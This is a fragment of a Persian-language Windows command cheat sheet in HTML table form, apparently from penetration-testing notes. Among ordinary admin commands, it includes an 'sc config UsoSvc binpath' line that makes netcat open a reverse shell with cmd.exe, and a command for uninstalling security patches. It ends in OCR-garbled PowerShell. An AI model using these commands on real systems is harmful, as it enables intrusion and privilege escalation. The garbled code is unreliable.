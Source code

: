     </tr>
    <tr>
      <td style="text-align:left">
        <p>find /I &apos;&apos;str&apos;&apos; filename</p>
        <p>command I find /c /v &quot;&quot;</p>
      </td>
      <td style="text-align:left">لیست خروجی های cmd</td>
    </tr>
    <tr>
      <td style="text-align:left">at HH:MM file [args] (i.e. at 14:45 cmd /c)</td>
      <td style="text-align:left">زمان بندی اجرایی فایل</td>
    </tr>
    <tr>
      <td style="text-align:left">runas /user: user &quot; file [args]&quot;</td>
      <td style="text-align:left">اجرای فایل با کاربر خاص</td>
    </tr>
    <tr>
      <td style="text-align:left">restart /r /t 0</td>
      <td style="text-align:left">راه اندازی مجدد</td>
    </tr>
    <tr>
      <td style="text-align:left">sc stop UsoSvc</td>
      <td style="text-align:left">توقف سرویس UsoSvc</td>
    </tr> 
    <tr>
      <td style="text-align:left">sc start UsoSvc</td>
      <td style="text-align:left">راه اندازی سرویس UsoSvc</td>
    </tr> 
    <tr>
      <td style="text-align:left">sc config UsoSvc binpath="c:\windows\temp\nc.exe ip port -e C:\windows\system32\cmd.exe"       </td>
      <td style="text-align:left">تغییر مسیر فایل اجرایی توسط UsoSvc</td>
    </tr> 
    <tr>
      <td style="text-align:left">tr -d &apos;\15\32&apos; win.txt unix.txt</td>
      <td style="text-align:left">حذف CR &amp; &apos;Z (&apos;nix)</td>
    </tr>
    <tr>
      <td style="text-align:left">makecab file</td>
      <td style="text-align:left">فشرده سازی</td>
    </tr>
    <tr>
      <td style="text-align:left">Wusa.exe /uninstall /kb: ###</td>
      <td style="text-align:left">حذف patch</td>
    </tr>
    <tr>
      <td style="text-align:left">
        <p>cmd.exe &quot;wevtutil qe Application /c:40</p>
        <p>/f:text /rd:true&quot;</p>
      </td>
      <td style="text-align:left">استفاده از Event Viewer در CLI</td>
    </tr>
    <tr>
      <td style="text-align:left">lusrrngr.msc</td>
      <td style="text-align:left">استفاده از Local user manager</td>
    </tr>
    <tr>
      <td style="text-align:left">services.msc</td>
      <td style="text-align:left">استفاده از Services control panel</td>
    </tr>
    <tr>
      <td style="text-align:left">taskmgr.exe</td>
      <td style="text-align:left">استفاده از Task manager</td>
    </tr>

[IO.Compression.Compressiont~ode]: :Decompress) I,
[Text.Encoding]: :ASCII)) .ReadToEnd() ;"